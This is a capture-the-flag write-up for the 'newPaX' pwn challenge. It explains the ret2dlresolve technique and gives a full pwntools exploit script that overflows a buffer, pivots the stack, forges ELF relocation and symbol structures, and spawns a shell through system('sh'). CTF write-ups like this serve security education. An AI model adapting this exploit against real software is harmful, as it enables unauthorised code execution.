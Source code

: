 # Pwn Challenge

## Name: newPaX

### Description:

`
 Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.  
`

**Author: gr4n173**

####  nc pwn.darkarmy.xyz 5001

**Solution:**

Main aim of this challenge was to make you familiar with the `advance ret2libc technique` where you have to call the `dynamic linker's dl-resolve() function` and pwn the challenge. But I didn't check for the unintended way so some of the teams have solved unintended way.
  

**Exploit:**


```
from pwn import *
context.terminal = ['tmux', 'new-window']                                                  
                                                                                  
r = process("./newPaX")                                                       
#r= remote('34.126.91.169', 6001)


elf = ELF("./newPaX")                                                         
                                                                                  
#r= gdb.debug('./newPaX') 

resolver = 0x80483e0 #disass vuln; disass <read@plt> #0x80482F0    #push link_map and call dl_resolve

#Finding the writable address throught `vmmap`
buf = 0x0804a900  

#ROPGadget --binary newPaX | grep "leave"
leave_ret = 0x080484f5 

#readelf -d newPaX
SYMTAB = 0x80481cc
STRTAB = 0x804829c 
JMPREL = 0x8048378 

#Overflowing the buffer at 48 i.e. [40+(8)for 64bit]= 48 bytes
payload = ""
payload += "A"*48
payload += p32(buf)   #stack pivoting. (esp = buff)

#Calling read(0,buf,0x80) 
payload += p32(elf.plt["read"]) 
payload += p32(leave_ret) 
payload += p32(0) 
payload += p32(buf) 
payload += p32(0x80)

# Compute offsets and forged structures
forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8 #size of elf32_sym

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) #align to 0x10

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) / 0x10

r_info = (index_sym << 8) | 0x7

elf32_rel = p32(elf.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)

# dl-resolve function call part where you create fake ebp and then returning to dl-resolve and then framing the structure to pwn the shell.

payload2 = 'AAAA'      
payload2 += p32(resolver)        
payload2 += p32(rel_offset)      
payload2 += 'AAAA'              
payload2 += p32(buf+100)         
payload2 += elf32_rel            
payload2 += 'A' * align
payload2 += elf32_sym_struct     
payload2 += "system\x00"
p = (100 - len(payload2))
payload2 += 'A' * p             
payload2 += "sh\x00"
p = (0x80 - len(payload2))
payload2 += "A" * p              
pause()
r.sendline(payload)
pause()
r.send(payload2)
r.interactive()

```

I have attached the exploit and comment a short description for this challenge where I have used the `ret2dlresolve` technique. If you want to know more detail about this technique than you can read the research paper of this bug which was found in early 2000.
  
[Advanced return-into-lib(c) exploits PaX case study](http://phrack.org/issues/58/4.html). 
